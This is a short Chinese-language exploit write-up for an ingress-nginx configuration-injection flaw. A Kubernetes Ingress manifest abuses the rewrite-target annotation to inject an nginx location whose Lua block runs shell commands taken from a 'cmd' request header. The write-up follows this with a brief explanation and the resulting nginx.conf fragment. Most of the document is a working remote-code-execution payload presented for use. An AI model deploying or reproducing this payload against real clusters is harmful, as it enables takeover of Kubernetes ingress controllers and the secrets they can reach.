 ## exp

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: evil-nginx
  annotations:
    kubernetes.io/ingress.class: "nginx"
    nginx.ingress.kubernetes.io/rewrite-target: |
      feng/ last;
      }
      location feng/ {
        content_by_lua_block {
          local rsfile = io.popen(ngx.req.get_headers()["cmd"]);
          local rschar = rsfile:read("*all");
          ngx.say(rschar);
        }
      }
      location /fs/{
spec:
  ingressClassName: nginx
  rules:
  - host: "test.feng"
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: exploit
            port:
              number: 80

```

service可以不存在。

原理就是使用了`nginx.ingress.kubernetes.io/rewrite-target`注解会往`nginx.conf`额外注入一段内容，这部分内容正好要拼接到`rewrite "(?i)/"`，因此注入利用rewrite到构造的location中，在这段location里面的content_by_lua_block可以执行恶意的lua命令，而lua是可以rce的，写一段rce的代码即可。



```bash

                        rewrite "(?i)/" feng/ last;
                }
                location feng/ {
                        content_by_lua_block {
                                local rsfile = io.popen(ngx.req.get_headers()["cmd"]);
                                local rsfile = io.popen("ls -al /");
                                local rschar = rsfile:read("*all");
                                ngx.say(rschar);
                        }
                }
                location /fs/{
                        break;
                        proxy_pass http://upstream_balancer;

                        proxy_redirect                          off;

```



